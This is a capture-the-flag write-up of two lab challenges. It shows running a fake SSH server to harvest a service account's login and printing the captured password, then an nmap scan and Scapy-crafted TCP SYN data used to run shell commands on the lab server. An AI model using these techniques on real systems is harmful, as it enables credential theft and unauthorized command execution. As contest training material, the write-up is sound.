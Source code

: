 Knockknock
=====================================
It was not about attacking, but listening on the laptop.  
There was a connection to port 22 from the server 10.13.37.99  
Let's install a FakeSSH serveur :  
git clone https://github.com/tylermenezes/FakeSSH  

sudo pip install paramiko  

cd FakeSSH  
cp ./data/config.sample.json ./data/config.json  
ssh-keygen -f ./data/rsa -m 'PEM'  
set no password  

sudo python3 server.py  

wait max 10min  

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_1.jpg)

ssh -l svc-tenable-linux 10.13.37.99  
password = $\mx3i#u0@%6d@8fk^&^x*ntw2m  

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_2.jpg)

==============

Net1

it is supposed to happen between port TCP3000-4000  
a quick : nmap -Pn -p 3000-4000 10.13.37.99  
![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/Net00.jpg)


Hint 2 : RFC741x => RFC7413 = Use TCP SYN Data

ok, Let's try some Python Scapy with TCP-Syn Data

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/Net0.jpg)

Trying to send some commands but nothing back from the server.

Hint : We got the password "SyN" at 1am

Ok, let's send some commands
main(SyN ls -la)
....
final command : main(SyN cat ./secret/me/not/flag.txt)

to find flag 
![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/Net1.jpg)




